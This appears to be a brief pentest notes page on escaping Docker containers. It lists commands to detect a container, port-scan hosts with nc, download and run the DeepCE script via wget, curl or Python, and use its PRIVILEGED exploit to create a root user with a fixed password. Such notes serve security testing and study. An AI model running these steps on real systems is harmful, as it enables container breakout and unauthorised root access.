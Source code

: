 # 🐳 Docker Escape

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html" %}

## Know you're in a docker

```bash
ps aux
cd / && ls -lah
# if .dockerenv then ...

cat /proc/1/cgroup
```

## Escape

```bash
arp -a
# other hosts ???
# scan open ports
nc -zv 127.0.0.1 1-65535
nc -zv $host 1-65535

# check for db and other stuff....
```

### Resources

{% embed url="https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/" %}
Docker Patched the Most Severe Copy Vulnerability to Date With CVE-2019-14271
{% endembed %}

#### DeepCE

{% embed url="https://github.com/stealthcopter/deepce" %}

```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh

# start
chmod +x ./deepce.sh
./deepce.sh

# create new root user on system
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```
